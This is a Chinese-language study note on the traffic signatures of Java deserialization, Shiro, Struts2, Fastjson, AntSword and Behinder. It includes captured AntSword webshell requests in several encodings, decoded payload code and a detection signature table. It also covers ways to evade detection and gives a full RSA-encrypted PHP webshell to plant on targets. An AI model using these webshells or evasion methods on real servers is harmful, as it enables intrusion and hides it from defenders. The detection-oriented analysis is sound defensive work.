#  Java反序列化流量

Java反序列化流量的话就比较明显了，当时学Java反序列化话的时候就提到过，有一段固定的序列化文件头的16进制

16进制流必有ac ed 00 05，这个16进制流基本上也意味者java反序列化的开始

# shiro流量

## 权限绕过

路径后面`%2f`

路径前面 `..;`

## 反序列化

- cookie传输
- 响应头：Set-Cookie: rememberMe=deleteMe
- 请求头:  rememberMe=cookie
- java反序列化流量特征aced0005
- Ase 加密
- 721的利用 cookie 进行填充之后 很长

# struts2流量

- GET，POST，content-type
- `*.action`文件`*.jsp`文件
- JAVA开发
- OGNL表达式注入
- %
- %{}

# fastjson流量

fastjson的反序列化指定类需要用到@type，以及传输方式为json，可能还会存在一些java代码，rmi或者Ldap，以及反序列化块

# 蚁剑流量分析

## 流量数据包

### default流量

蚁剑可以直接设置代理，我们来抓包看看，其流量特征

default测试连接抓包

```
POST /1.php HTTP/1.1
Host: 10.211.55.7
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 1794
Connection: close

1=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24oparr%3Dpreg_split(base64_decode(%22Lzt8Oi8%3D%22)%2C%24opdir)%3B%40array_push(%24oparr%2C%24ocwd%2Csys_get_temp_dir())%3Bforeach(%24oparr%20as%20%24item)%20%7Bif(!%40is_writable(%24item))%7Bcontinue%3B%7D%3B%24tmdir%3D%24item.%22%2F.089c87924%22%3B%40mkdir(%24tmdir)%3Bif(!%40file_exists(%24tmdir))%7Bcontinue%3B%7D%24tmdir%3Drealpath(%24tmdir)%3B%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%20%22..%22)%3B%24cntarr%3D%40preg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24tmdir)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24cntarr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%3B%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24tmdir)%3Bbreak%3B%7D%3B%7D%3B%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%221a3f6%22.%22199177%22%3Becho%20%40asenc(%24output)%3Becho%20%226769e%22.%223e6a5%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B
```

解码后的代码

```
<?php
@ini_set( 'display_errors', '0' );  # 临时关闭PHP的错误显示功能
@set_time_limit( 0 );   # 设置执行时间，为零表示执行永久执行到程序结束，防止超时

function asenc( $out ) { # 创建函数，直接返回内容
    return $out;
}


function asoutput() { # 定义asoutput函数，主要是输出缓冲区内容
    $output = ob_get_contents(); # 获取输出缓冲区的内容
    ob_end_clean(); # 清空缓冲区并关闭输出缓冲
    echo '1a3f6'.'199177';  # 随机字符，作为开始和结束的分割符
    echo @asenc( $output ); # 调用asenc函数输出缓冲区内容
    echo '6769e'.'3e6a5';
}
# 打开输出控制缓冲，将需要输出的内容存储在内部缓冲区中
# asoutput变量中的ob_get_contents函数会将内部缓冲区的内容复制到output变量中
ob_start(); # 开启缓冲区
try {
    $D = dirname( $_SERVER[ 'SCRIPT_FILENAME' ] ); # $_SERVER[ 'SCRIPT_FILENAME' ]用于获取当前执行脚本的完整路径，dirname()函数获取给定文件路径中的目录部分
    if ( $D == '' )$D = dirname( $_SERVER[ 'PATH_TRANSLATED' ] ); # $_SERVER[ 'PATH_TRANSLATED' ]获取脚本所在文件系统（不是文档根目录）的基本路径
    $R = "{$D}	";
    if ( substr( $D, 0, 1 ) != '/' ) {  # 判断$D的开头是不是/，以此区分windows和linux系统
        foreach ( range( 'C', 'Z' )as $L )if ( is_dir( "{$L}:" ) )$R .= "{$L}:"; # 如果是的话，遍历C到Z盘，is_dir的结果会缓存，然后可以用asoutput函数输出
    } else {
        $R .= '/'; # 假如是linux的，就直接在后面加一个/
    }
    $R .= '	'; # 一个tab符号拼接，为了美化输出
    $u = ( function_exists( 'posix_getegid' ) )?@posix_getpwuid( @posix_geteuid() ):'';
    # function_exists如果给定的函数已经被定义就返回 TRUE
		# posix_getpwuid通过用户ID返回有关用户的信息
		# posix_geteuid返回当前进程的有效用户ID 
		# 断posix
    $s = ( $u )?$u[ 'name' ]:@get_current_user();   # 获取当前user用户名
    $R .= php_uname(); # 返回操作系统的描述
    $R .= "	{$s}";
    echo $R;
    } catch( Exception $e ) {
        echo 'ERROR://'.$e->getMessage();
    }
    
    asoutput();
    die();
```



### base64流量

```
POST /1.php HTTP/1.1
Host: 10.211.55.7
Accept-Encoding: gzip, deflate
User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52
Content-Type: application/x-www-form-urlencoded
Content-Length: 1670
Connection: close

1=%40eval(%40base64_decode(%24_POST%5B'j7d2c0c06f0c97'%5D))%3B&j7d2c0c06f0c97=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwgIjAiKTtAc2V0X3RpbWVfbGltaXQoMCk7JG9wZGlyPUBpbmlfZ2V0KCJvcGVuX2Jhc2VkaXIiKTtpZigkb3BkaXIpIHskb2N3ZD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7JG9wYXJyPXByZWdfc3BsaXQoYmFzZTY0X2RlY29kZSgiTHp0OE9pOD0iKSwkb3BkaXIpO0BhcnJheV9wdXNoKCRvcGFyciwkb2N3ZCxzeXNfZ2V0X3RlbXBfZGlyKCkpO2ZvcmVhY2goJG9wYXJyIGFzICRpdGVtKSB7aWYoIUBpc193cml0YWJsZSgkaXRlbSkpe2NvbnRpbnVlO307JHRtZGlyPSRpdGVtLiIvLmZkNzdmNmQ5ZTBmZiI7QG1rZGlyKCR0bWRpcik7aWYoIUBmaWxlX2V4aXN0cygkdG1kaXIpKXtjb250aW51ZTt9JHRtZGlyPXJlYWxwYXRoKCR0bWRpcik7QGNoZGlyKCR0bWRpcik7QGluaV9zZXQoIm9wZW5fYmFzZWRpciIsICIuLiIpOyRjbnRhcnI9QHByZWdfc3BsaXQoIi9cXFxcfFwvLyIsJHRtZGlyKTtmb3IoJGk9MDskaTxzaXplb2YoJGNudGFycik7JGkrKyl7QGNoZGlyKCIuLiIpO307QGluaV9zZXQoIm9wZW5fYmFzZWRpciIsIi8iKTtAcm1kaXIoJHRtZGlyKTticmVhazt9O307O2Z1bmN0aW9uIGFzZW5jKCRvdXQpe3JldHVybiAkb3V0O307ZnVuY3Rpb24gYXNvdXRwdXQoKXskb3V0cHV0PW9iX2dldF9jb250ZW50cygpO29iX2VuZF9jbGVhbigpO2VjaG8gIjY2Ii4iMDVkIjtlY2hvIEBhc2VuYygkb3V0cHV0KTtlY2hvICJhYzIiLiJlN2UiO31vYl9zdGFydCgpO3RyeXskRD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7aWYoJEQ9PSIiKSREPWRpcm5hbWUoJF9TRVJWRVJbIlBBVEhfVFJBTlNMQVRFRCJdKTskUj0ieyREfQkiO2lmKHN1YnN0cigkRCwwLDEpIT0iLyIpe2ZvcmVhY2gocmFuZ2UoIkMiLCJaIilhcyAkTClpZihpc19kaXIoInskTH06IikpJFIuPSJ7JEx9OiI7fWVsc2V7JFIuPSIvIjt9JFIuPSIJIjskdT0oZnVuY3Rpb25fZXhpc3RzKCJwb3NpeF9nZXRlZ2lkIikpP0Bwb3NpeF9nZXRwd3VpZChAcG9zaXhfZ2V0ZXVpZCgpKToiIjskcz0oJHUpPyR1WyJuYW1lIl06QGdldF9jdXJyZW50X3VzZXIoKTskUi49cGhwX3VuYW1lKCk7JFIuPSIJeyRzfSI7ZWNobyAkUjs7fWNhdGNoKEV4Y2VwdGlvbiAkZSl7ZWNobyAiRVJST1I6Ly8iLiRlLT5nZXRNZXNzYWdlKCk7fTthc291dHB1dCgpO2RpZSgpOw%3D%3D
```


解密出发，发现和全面defalut的代码几乎一样，只是随机的分割符的不一样

相比default的传输方式，多了一个一句话，把base64字符串塞到了eval里面，其他都一样



如果我们把解码器换成base64的话



可以看到返回结果也是base64

### chr

```
POST /1.php HTTP/1.1
Host: 10.211.55.7
Accept-Encoding: gzip, deflate
User-Agent: Opera/9.80 (X11; Linux i686; U; ja) Presto/2.7.62 Version/11.01
Content-Type: application/x-www-form-urlencoded
Content-Length: 10146
Connection: close

1=%40eVAl(cHr(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(115).ChR(101).ChR(116).ChR(40).ChR(34).ChR(100).ChR(105).ChR(115).ChR(112).ChR(108).ChR(97).ChR(121).ChR(95).ChR(101).ChR(114).ChR(114).ChR(111).ChR(114).ChR(115).ChR(34).ChR(44).ChR(32).ChR(34).ChR(48).ChR(34).ChR(41).ChR(59).ChR(64).ChR(115).ChR(101).ChR(116).ChR(95).ChR(116).ChR(105).ChR(109).ChR(101).ChR(95).ChR(108).ChR(105).ChR(109).ChR(105).ChR(116).ChR(40).ChR(48).ChR(41).ChR(59).ChR(36).ChR(111).ChR(112).ChR(100).ChR(105).ChR(114).ChR(61).ChR(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(103).ChR(101).ChR(116).ChR(40).ChR(34).ChR(111).ChR(112).ChR(101).ChR(110).ChR(95).ChR(98).ChR(97).ChR(115).ChR(101).ChR(100).ChR(105).ChR(114).ChR(34).ChR(41).ChR(59).ChR(105).ChR(102).ChR(40).ChR(36).ChR(111).ChR(112).ChR(100).ChR(105).ChR(114).ChR(41).ChR(32).ChR(123).ChR(36).ChR(111).ChR(99).ChR(119).ChR(100).ChR(61).ChR(100).ChR(105).ChR(114).ChR(110).ChR(97).ChR(109).ChR(101).ChR(40).ChR(36).ChR(95).ChR(83).ChR(69).ChR(82).ChR(86).ChR(69).ChR(82).ChR(91).ChR(34).ChR(83).ChR(67).ChR(82).ChR(73).ChR(80).ChR(84).ChR(95).ChR(70).ChR(73).ChR(76).ChR(69).ChR(78).ChR(65).ChR(77).ChR(69).ChR(34).ChR(93).ChR(41).ChR(59).ChR(36).ChR(111).ChR(112).ChR(97).ChR(114).ChR(114).ChR(61).ChR(112).ChR(114).ChR(101).ChR(103).ChR(95).ChR(115).ChR(112).ChR(108).ChR(105).ChR(116).ChR(40).ChR(98).ChR(97).ChR(115).ChR(101).ChR(54).ChR(52).ChR(95).ChR(100).ChR(101).ChR(99).ChR(111).ChR(100).ChR(101).ChR(40).ChR(34).ChR(76).ChR(122).ChR(116).ChR(56).ChR(79).ChR(105).ChR(56).ChR(61).ChR(34).ChR(41).ChR(44).ChR(36).ChR(111).ChR(112).ChR(100).ChR(105).ChR(114).ChR(41).ChR(59).ChR(64).ChR(97).ChR(114).ChR(114).ChR(97).ChR(121).ChR(95).ChR(112).ChR(117).ChR(115).ChR(104).ChR(40).ChR(36).ChR(111).ChR(112).ChR(97).ChR(114).ChR(114).ChR(44).ChR(36).ChR(111).ChR(99).ChR(119).ChR(100).ChR(44).ChR(115).ChR(121).ChR(115).ChR(95).ChR(103).ChR(101).ChR(116).ChR(95).ChR(116).ChR(101).ChR(109).ChR(112).ChR(95).ChR(100).ChR(105).ChR(114).ChR(40).ChR(41).ChR(41).ChR(59).ChR(102).ChR(111).ChR(114).ChR(101).ChR(97).ChR(99).ChR(104).ChR(40).ChR(36).ChR(111).ChR(112).ChR(97).ChR(114).ChR(114).ChR(32).ChR(97).ChR(115).ChR(32).ChR(36).ChR(105).ChR(116).ChR(101).ChR(109).ChR(41).ChR(32).ChR(123).ChR(105).ChR(102).ChR(40).ChR(33).ChR(64).ChR(105).ChR(115).ChR(95).ChR(119).ChR(114).ChR(105).ChR(116).ChR(97).ChR(98).ChR(108).ChR(101).ChR(40).ChR(36).ChR(105).ChR(116).ChR(101).ChR(109).ChR(41).ChR(41).ChR(123).ChR(99).ChR(111).ChR(110).ChR(116).ChR(105).ChR(110).ChR(117).ChR(101).ChR(59).ChR(125).ChR(59).ChR(36).ChR(116).ChR(109).ChR(100).ChR(105).ChR(114).ChR(61).ChR(36).ChR(105).ChR(116).ChR(101).ChR(109).ChR(46).ChR(34).ChR(47).ChR(46).ChR(52).ChR(101).ChR(51).ChR(98).ChR(99).ChR(99).ChR(97).ChR(52).ChR(52).ChR(101).ChR(99).ChR(34).ChR(59).ChR(64).ChR(109).ChR(107).ChR(100).ChR(105).ChR(114).ChR(40).ChR(36).ChR(116).ChR(109).ChR(100).ChR(105).ChR(114).ChR(41).ChR(59).ChR(105).ChR(102).ChR(40).ChR(33).ChR(64).ChR(102).ChR(105).ChR(108).ChR(101).ChR(95).ChR(101).ChR(120).ChR(105).ChR(115).ChR(116).ChR(115).ChR(40).ChR(36).ChR(116).ChR(109).ChR(100).ChR(105).ChR(114).ChR(41).ChR(41).ChR(123).ChR(99).ChR(111).ChR(110).ChR(116).ChR(105).ChR(110).ChR(117).ChR(101).ChR(59).ChR(125).ChR(36).ChR(116).ChR(109).ChR(100).ChR(105).ChR(114).ChR(61).ChR(114).ChR(101).ChR(97).ChR(108).ChR(112).ChR(97).ChR(116).ChR(104).ChR(40).ChR(36).ChR(116).ChR(109).ChR(100).ChR(105).ChR(114).ChR(41).ChR(59).ChR(64).ChR(99).ChR(104).ChR(100).ChR(105).ChR(114).ChR(40).ChR(36).ChR(116).ChR(109).ChR(100).ChR(105).ChR(114).ChR(41).ChR(59).ChR(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(115).ChR(101).ChR(116).ChR(40).ChR(34).ChR(111).ChR(112).ChR(101).ChR(110).ChR(95).ChR(98).ChR(97).ChR(115).ChR(101).ChR(100).ChR(105).ChR(114).ChR(34).ChR(44).ChR(32).ChR(34).ChR(46).ChR(46).ChR(34).ChR(41).ChR(59).ChR(36).ChR(99).ChR(110).ChR(116).ChR(97).ChR(114).ChR(114).ChR(61).ChR(64).ChR(112).ChR(114).ChR(101).ChR(103).ChR(95).ChR(115).ChR(112).ChR(108).ChR(105).ChR(116).ChR(40).ChR(34).ChR(47).ChR(92).ChR(92).ChR(92).ChR(92).ChR(124).ChR(92).ChR(47).ChR(47).ChR(34).ChR(44).ChR(36).ChR(116).ChR(109).ChR(100).ChR(105).ChR(114).ChR(41).ChR(59).ChR(102).ChR(111).ChR(114).ChR(40).ChR(36).ChR(105).ChR(61).ChR(48).ChR(59).ChR(36).ChR(105).ChR(60).ChR(115).ChR(105).ChR(122).ChR(101).ChR(111).ChR(102).ChR(40).ChR(36).ChR(99).ChR(110).ChR(116).ChR(97).ChR(114).ChR(114).ChR(41).ChR(59).ChR(36).ChR(105).ChR(43).ChR(43).ChR(41).ChR(123).ChR(64).ChR(99).ChR(104).ChR(100).ChR(105).ChR(114).ChR(40).ChR(34).ChR(46).ChR(46).ChR(34).ChR(41).ChR(59).ChR(125).ChR(59).ChR(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(115).ChR(101).ChR(116).ChR(40).ChR(34).ChR(111).ChR(112).ChR(101).ChR(110).ChR(95).ChR(98).ChR(97).ChR(115).ChR(101).ChR(100).ChR(105).ChR(114).ChR(34).ChR(44).ChR(34).ChR(47).ChR(34).ChR(41).ChR(59).ChR(64).ChR(114).ChR(109).ChR(100).ChR(105).ChR(114).ChR(40).ChR(36).ChR(116).ChR(109).ChR(100).ChR(105).ChR(114).ChR(41).ChR(59).ChR(98).ChR(114).ChR(101).ChR(97).ChR(107).ChR(59).ChR(125).ChR(59).ChR(125).ChR(59).ChR(59).ChR(102).ChR(117).ChR(110).ChR(99).ChR(116).ChR(105).ChR(111).ChR(110).ChR(32).ChR(97).ChR(115).ChR(101).ChR(110).ChR(99).ChR(40).ChR(36).ChR(111).ChR(117).ChR(116).ChR(41).ChR(123).ChR(114).ChR(101).ChR(116).ChR(117).ChR(114).ChR(110).ChR(32).ChR(36).ChR(111).ChR(117).ChR(116).ChR(59).ChR(125).ChR(59).ChR(102).ChR(117).ChR(110).ChR(99).ChR(116).ChR(105).ChR(111).ChR(110).ChR(32).ChR(97).ChR(115).ChR(111).ChR(117).ChR(116).ChR(112).ChR(117).ChR(116).ChR(40).ChR(41).ChR(123).ChR(36).ChR(111).ChR(117).ChR(116).ChR(112).ChR(117).ChR(116).ChR(61).ChR(111).ChR(98).ChR(95).ChR(103).ChR(101).ChR(116).ChR(95).ChR(99).ChR(111).ChR(110).ChR(116).ChR(101).ChR(110).ChR(116).ChR(115).ChR(40).ChR(41).ChR(59).ChR(111).ChR(98).ChR(95).ChR(101).ChR(110).ChR(100).ChR(95).ChR(99).ChR(108).ChR(101).ChR(97).ChR(110).ChR(40).ChR(41).ChR(59).ChR(101).ChR(99).ChR(104).ChR(111).ChR(32).ChR(34).ChR(49).ChR(99).ChR(102).ChR(97).ChR(34).ChR(46).ChR(34).ChR(102).ChR(49).ChR(100).ChR(99).ChR(55).ChR(34).ChR(59).ChR(101).ChR(99).ChR(104).ChR(111).ChR(32).ChR(64).ChR(97).ChR(115).ChR(101).ChR(110).ChR(99).ChR(40).ChR(36).ChR(111).ChR(117).ChR(116).ChR(112).ChR(117).ChR(116).ChR(41).ChR(59).ChR(101).ChR(99).ChR(104).ChR(111).ChR(32).ChR(34).ChR(102).ChR(50).ChR(51).ChR(50).ChR(34).ChR(46).ChR(34).ChR(48).ChR(57).ChR(101).ChR(48).ChR(34).ChR(59).ChR(125).ChR(111).ChR(98).ChR(95).ChR(115).ChR(116).ChR(97).ChR(114).ChR(116).ChR(40).ChR(41).ChR(59).ChR(116).ChR(114).ChR(121).ChR(123).ChR(36).ChR(68).ChR(61).ChR(100).ChR(105).ChR(114).ChR(110).ChR(97).ChR(109).ChR(101).ChR(40).ChR(36).ChR(95).ChR(83).ChR(69).ChR(82).ChR(86).ChR(69).ChR(82).ChR(91).ChR(34).ChR(83).ChR(67).ChR(82).ChR(73).ChR(80).ChR(84).ChR(95).ChR(70).ChR(73).ChR(76).ChR(69).ChR(78).ChR(65).ChR(77).ChR(69).ChR(34).ChR(93).ChR(41).ChR(59).ChR(105).ChR(102).ChR(40).ChR(36).ChR(68).ChR(61).ChR(61).ChR(34).ChR(34).ChR(41).ChR(36).ChR(68).ChR(61).ChR(100).ChR(105).ChR(114).ChR(110).ChR(97).ChR(109).ChR(101).ChR(40).ChR(36).ChR(95).ChR(83).ChR(69).ChR(82).ChR(86).ChR(69).ChR(82).ChR(91).ChR(34).ChR(80).ChR(65).ChR(84).ChR(72).ChR(95).ChR(84).ChR(82).ChR(65).ChR(78).ChR(83).ChR(76).ChR(65).ChR(84).ChR(69).ChR(68).ChR(34).ChR(93).ChR(41).ChR(59).ChR(36).ChR(82).ChR(61).ChR(34).ChR(123).ChR(36).ChR(68).ChR(125).ChR(9).ChR(34).ChR(59).ChR(105).ChR(102).ChR(40).ChR(115).ChR(117).ChR(98).ChR(115).ChR(116).ChR(114).ChR(40).ChR(36).ChR(68).ChR(44).ChR(48).ChR(44).ChR(49).ChR(41).ChR(33).ChR(61).ChR(34).ChR(47).ChR(34).ChR(41).ChR(123).ChR(102).ChR(111).ChR(114).ChR(101).ChR(97).ChR(99).ChR(104).ChR(40).ChR(114).ChR(97).ChR(110).ChR(103).ChR(101).ChR(40).ChR(34).ChR(67).ChR(34).ChR(44).ChR(34).ChR(90).ChR(34).ChR(41).ChR(97).ChR(115).ChR(32).ChR(36).ChR(76).ChR(41).ChR(105).ChR(102).ChR(40).ChR(105).ChR(115).ChR(95).ChR(100).ChR(105).ChR(114).ChR(40).ChR(34).ChR(123).ChR(36).ChR(76).ChR(125).ChR(58).ChR(34).ChR(41).ChR(41).ChR(36).ChR(82).ChR(46).ChR(61).ChR(34).ChR(123).ChR(36).ChR(76).ChR(125).ChR(58).ChR(34).ChR(59).ChR(125).ChR(101).ChR(108).ChR(115).ChR(101).ChR(123).ChR(36).ChR(82).ChR(46).ChR(61).ChR(34).ChR(47).ChR(34).ChR(59).ChR(125).ChR(36).ChR(82).ChR(46).ChR(61).ChR(34).ChR(9).ChR(34).ChR(59).ChR(36).ChR(117).ChR(61).ChR(40).ChR(102).ChR(117).ChR(110).ChR(99).ChR(116).ChR(105).ChR(111).ChR(110).ChR(95).ChR(101).ChR(120).ChR(105).ChR(115).ChR(116).ChR(115).ChR(40).ChR(34).ChR(112).ChR(111).ChR(115).ChR(105).ChR(120).ChR(95).ChR(103).ChR(101).ChR(116).ChR(101).ChR(103).ChR(105).ChR(100).ChR(34).ChR(41).ChR(41).ChR(63).ChR(64).ChR(112).ChR(111).ChR(115).ChR(105).ChR(120).ChR(95).ChR(103).ChR(101).ChR(116).ChR(112).ChR(119).ChR(117).ChR(105).ChR(100).ChR(40).ChR(64).ChR(112).ChR(111).ChR(115).ChR(105).ChR(120).ChR(95).ChR(103).ChR(101).ChR(116).ChR(101).ChR(117).ChR(105).ChR(100).ChR(40).ChR(41).ChR(41).ChR(58).ChR(34).ChR(34).ChR(59).ChR(36).ChR(115).ChR(61).ChR(40).ChR(36).ChR(117).ChR(41).ChR(63).ChR(36).ChR(117).ChR(91).ChR(34).ChR(110).ChR(97).ChR(109).ChR(101).ChR(34).ChR(93).ChR(58).ChR(64).ChR(103).ChR(101).ChR(116).ChR(95).ChR(99).ChR(117).ChR(114).ChR(114).ChR(101).ChR(110).ChR(116).ChR(95).ChR(117).ChR(115).ChR(101).ChR(114).ChR(40).ChR(41).ChR(59).ChR(36).ChR(82).ChR(46).ChR(61).ChR(112).ChR(104).ChR(112).ChR(95).ChR(117).ChR(110).ChR(97).ChR(109).ChR(101).ChR(40).ChR(41).ChR(59).ChR(36).ChR(82).ChR(46).ChR(61).ChR(34).ChR(9).ChR(123).ChR(36).ChR(115).ChR(125).ChR(34).ChR(59).ChR(101).ChR(99).ChR(104).ChR(111).ChR(32).ChR(36).ChR(82).ChR(59).ChR(59).ChR(125).ChR(99).ChR(97).ChR(116).ChR(99).ChR(104).ChR(40).ChR(69).ChR(120).ChR(99).ChR(101).ChR(112).ChR(116).ChR(105).ChR(111).ChR(110).ChR(32).ChR(36).ChR(101).ChR(41).ChR(123).ChR(101).ChR(99).ChR(104).ChR(111).ChR(32).ChR(34).ChR(69).ChR(82).ChR(82).ChR(79).ChR(82).ChR(58).ChR(47).ChR(47).ChR(34).ChR(46).ChR(36).ChR(101).ChR(45).ChR(62).ChR(103).ChR(101).ChR(116).ChR(77).ChR(101).ChR(115).ChR(115).ChR(97).ChR(103).ChR(101).ChR(40).ChR(41).ChR(59).ChR(125).ChR(59).ChR(97).ChR(115).ChR(111).ChR(117).ChR(116).ChR(112).ChR(117).ChR(116).ChR(40).ChR(41).ChR(59).ChR(100).ChR(105).ChR(101).ChR(40).ChR(41).ChR(59))%3B
```



也是把default的代码编码了而已，然后通过eval执行chr函数拼接出来的字符串

对于rot13的话和base64是一样的，通过随机生成的一个字符串传入rot13编码，在eval的时候调用rot13解码后执行

## 流量特征

蚁剑对于测试连接，双击连接，打开文件夹，打开文件，修改文件，删除文件，wget下载文件，上传文件，打开终端都有相应的数据包

但是整体下来都有一定的特征，通过上面的几个数据包我们可以发现，不同编码方式产生的数据可以看到虽然代码进行了编码操作，但是数据包中仍有明显的特征，测试流量中的数据包都是采用@ini_set函数开头，在base64数据包中它是QGluaV9zZXQ，在chr编码数据包中是cHr(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(115).ChR(101).ChR(116)，在rot13编码数据包中是@vav_frg并且编码后的数据包中都存在eval这个敏感函数

部分的还会有antword/v2.1

| payload存在于    | body内                                                       |
| ---------------- | ------------------------------------------------------------ |
| body参数内容存在 | ini_set（）函数set_time_limit（）函数echo 函数eval 函数      |
| ua头             | antsword/v2.1                                                |
|                  |                                                              |
| 编码方式         | 编码结果                                                     |
| default          | @ini_set                                                     |
| base64           | QGluaV9zZXQ                                                  |
| chr              | cHr(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(115).ChR(101).ChR(116) |
| chr16            | cHr(0x40).ChR(0x69).ChR(0x6e).ChR(0x69).ChR(0x5f).ChR(0x73).ChR(0x65).ChR(0x74) |
| rot13            | @vav_frg                                                     |

## 流量改造

一方面是User-agent这个头部，将antSword/modules/request.js文件中的常量USER_AGENT的值更改为自定义ua头


可以更改为固定的

### 自带的RSA编码器

rsa作为非对称密钥加密的方式，这种方式密钥不同，就没有固定值，所以尽管我们payload是固定的，但是加密后生成的密文却不固定

蚁剑2.1后，自带了RSA编码器


只需要用ssh-keygen生成，或者直接在线生成一个密钥对就行





点击生成会生成一个php代码

```
<?php
$cmd = @$_POST['ant'];
$pk = <<<EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDH3/Gei9b0lpBi/xRjjJJ/6FIK
qBe3dR8IQqVugX+4GFzKyGWlbud6A5xlm9CZnJzcRjegcUOP7c75vEkRV+3ah3X0
qrQfOHrz2pePlXHO+nTG9qX5Kcg7RHKhxa938uVU/xo0tL8FxqOiyIjYKYP4FZkI
z6UaZ35zmSkYjIz3VQIDAQAB
-----END PUBLIC KEY-----
EOF;
$cmds = explode("|", $cmd);
$pk = openssl_pkey_get_public($pk);
$cmd = '';
foreach ($cmds as $value) {
  if (openssl_public_decrypt(base64_decode($value), $de, $pk)) {
    $cmd .= $de;
  }
}
eval($cmd);
```

然后把这个马放到目标机器上去，新建一个编码器


连接密码为ant，可以改



我们来看看流量



已经没有了刚才的固定特征，但是这个马的话可能需要做一定的面杀才能传到目标服务器上

## 总结

作为一款开源的webshell管理工具，蚁剑的流量特征还是比较明显的，我们所选的方式还是通过对流量的加密来实现，另外就是蚁剑的代码可能被一些杀软识别了，可能需要一定的免杀，被拦截的话代码返回值的-1，即虚拟终端显示ret=-1

# 冰蝎流量分析

## V3.0特征

设置代理，先抓一下保存时候的包



传输的过程中是用AES加密的，并不像蚁剑菜刀那样明文的强特征

### user-agent

冰蝎里面提供了16个随机的UA头，比较老旧，没什么人用，所以能作为一些waf规则的特征，但是属于弱特征

```
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/14.0.835.163 Safari/535.1
Mozilla/5.0 (Windows NT 6.1; WOW64; rv:6.0) Gecko/20100101 Firefox/6.0
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50
Opera/9.80 (Windows NT 6.1; U; zh-cn) Presto/2.9.168 Version/11.50
Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; Tablet PC 2.0; .NET4.0E)
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3)
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; GTB7.0)
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Mozilla/5.0 (Windows; U; Windows NT 6.1; ) AppleWebKit/534.12 (KHTML, like Gecko) Maxthon/3.0 Safari/534.12
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E)
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E; SE 2.X MetaSr 1.0)
Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/534.3 (KHTML, like Gecko) Chrome/6.0.472.33 Safari/534.3 SE 2.X MetaSr 1.0
Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E)
